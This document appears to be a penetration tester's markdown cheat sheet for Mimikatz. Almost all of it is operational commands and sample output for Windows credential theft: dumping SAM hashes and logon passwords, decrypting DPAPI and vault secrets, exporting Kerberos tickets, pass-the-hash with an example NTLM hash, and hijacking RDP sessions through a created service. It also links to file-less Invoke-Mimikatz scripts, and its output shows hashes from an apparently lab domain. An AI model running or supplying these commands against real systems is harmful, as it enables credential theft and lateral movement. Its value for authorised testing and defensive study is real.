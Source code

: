 ```yaml
---
title: Mimikatz
date: M02-05-2023
author: i4
---
```


>Starting with Windows 8.1 and Windows Server 2012 R2, the LM hash and “clear-text” password are no longer in memory.
> In order to prevent the “clear-text” password from being placed in LSASS, the following registry key needs to be set to “0” (Digest Disabled):
> `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest “UseLogonCredential”(DWORD)`
- https://book.hacktricks.xyz/windows-hardening/stealing-windows-credentials/credentials-mimikatz

## Requirements
- Needs to be run as Administrator (See high elevation [[UAC Bypass]] & [[Insecure File Permissions]])
- Needs SeDebugPrivileges tokens

```cmd
C:\> mimikatz.exe
...
mimikatz # privilege::debug # Active SeDebugPrivileg
mimikatz # token::elevate # UAC => SYSTEM Mandatory Level
mimikatz # lsadump::sam # Dump local NTLM hashes
```

### RDP Session Hijack
- Use `ts::multirdp` to allow multiple connections
```
privilege::debug
token:: elevate
ts::sessions # list sessions IDs
ts::remote /id:[id] # Hijack session
```

**Without mimikatz (Needs SYSTEM)**
```
query user
create sesshijack binpath="cmd.exe /k tscon 1 /dest:rdp-tcp#[id]"
net start sesshijack
```

## SAM
```
lsadump::sam
```

### DPAPI
```
# Grab credentials 
C:\Users\<user>\Appdata\Local\microsoft\Credentials\*

$ mimikatz dpapi::cred /in:C:\<user>\Appdata\Local\microsoft\Credentials\<ID>

# find master key
# mimikatz !sekurlsa::dpapi

# use to decrypt
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\[id] /masterkey:[masterkey]
```

### Task Scheduled creds
- Dumps passwords of scheduled tasks
```
mimikatz.exe "privilege::debug" "token::elevate" "vault::cred /patch" "exit"
```

### Vault
```
vault::cred /in:C:\Users\<User>\AppData\Local\Microsoft\Vault\"
```

### Pass-The-Ticket
```mimikatz
mimikatz # sekurlsa::pth /user:SCCM$ /domain:IDENTITY /ntlm:e722dfcd077a2b0bbe154a1b42872f4e /run:powershell
```

### Logged-On users
- NTLM & SHA-1 + SYSTEM hive can be used to crack hashes
- WDIGEST should not be enabled on the system (if not manually enabled) -> Will contain cleartext password
- 
```cmd
sekurlsa::logonpasswords

Authentication Id : 0 ; 11175293 (00000000:00aa857d)
Session           : Interactive from 1
User Name         : i4
Domain            : HEIMAT
Logon Server      : FALKE
Logon Time        : 15/02/2023 19:12:13
SID               : S-1-5-21-723141792-3823283005-3320163372-1106
        msv :
         [00000003] Primary
         * Username : i4
         * Domain   : HEIMAT
         * NTLM     : 6608E4BC7B2B7A5F77CE3573570775AF
         * SHA1     : 6E2F9E6111E77EDD0C446EA7A84E25323D137A61
         * DPAPI    : 2a8b139c8129cjsadgbbc276892a6962
        tspkg :
        wdigest :
         * Username : i4
         * Domain   : HEIMAT
         * Password : (null)
        kerberos :
         * Username : i4
         * Domain   : heimat.erde
         * Password : ????
        ssp :
        credman :
        cloudap :
```

### Kerberos Tickets
- See [[Kerberos]]
- See [[Service Account Attacks]]
```
sekurlsa::tickets

Authentication Id : 0 ; 11175293 (00000000:00aa857d)
Session           : Interactive from 1
User Name         : i4
Domain            : HEIMAT
Logon Server      : FALKE
Logon Time        : 15/02/2023 19:12:13
SID               : S-1-5-21-723141792-3823283005-3320163372-1106

         * Username : i4
         * Domain   : HEIMAT.ERDE
         * Password : (null)

        Group 0 - Ticket Granting Service
         [00000000]
           Start/End/MaxRenew: 16/02/2023 05:07:26 ; 16/02/2023 15:07:22 ; 23/02/2023 05:07:22
           Service Name (02) : LDAP ; falke.heimat.erde ; heimat.erde ; @ HEIMAT.ERDE
           Target Name  (02) : LDAP ; falke.heimat.erde ; heimat.erde ; @ HEIMAT.ERDE
           Client Name  (01) : i4 ; @ HEIMAT.ERDE ( HEIMAT.ERDE )
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             ????????????????????????????????????????????????????????????????
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]
         [00000001]
           Start/End/MaxRenew: 16/02/2023 05:07:22 ; 16/02/2023 15:07:22 ; 23/02/2023 05:07:22
           Service Name (02) : cifs ; falke.heimat.erde ; @ HEIMAT.ERDE
           Target Name  (02) : cifs ; falke.heimat.erde ; @ HEIMAT.ERDE
           Client Name  (01) : i4 ; @ HEIMAT.ERDE
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             ????????????????????????????????????????????????????????????????
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 16/02/2023 05:07:22 ; 16/02/2023 15:07:22 ; 23/02/2023 05:07:22
           Service Name (02) : krbtgt ; HEIMAT.ERDE ; @ HEIMAT.ERDE
           Target Name  (--) : @ HEIMAT.ERDE
           Client Name  (01) : i4 ; @ HEIMAT.ERDE ( $$Delegation Ticket$$ )
           Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             ????????????????????????????????????????????????????????????????
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
         [00000001]
           Start/End/MaxRenew: 16/02/2023 05:07:22 ; 16/02/2023 15:07:22 ; 23/02/2023 05:07:22
           Service Name (02) : krbtgt ; HEIMAT.ERDE ; @ HEIMAT.ERDE
           Target Name  (02) : krbtgt ; heimat.erde ; @ HEIMAT.ERDE
           Client Name  (01) : i4 ; @ HEIMAT.ERDE ( heimat.erde )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             ????????????????????????????????????????????????????????????????
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
```

#### Dumping tickets
- If the TGS is already in memory for the specific user, no administrator or  `privilege::debug` needed.
- Saves the ticket in the current dir

_mimikatz.exe_
```
mimikatz # kerberos::list /export
```

_Invoke-Mimikatz_
```
Invoke-Mimikatz -Command '"kerberos::list /export"' #Export tickets to current folder
```

## Others
### File-less
- [PowerSploit](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1)
- [Empire](https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1)

### Dumping misc creds

- [Invoke-Mimikittenz](https://raw.githubusercontent.com/putterpanda/mimikittenz/master/Invoke-mimikittenz.ps1)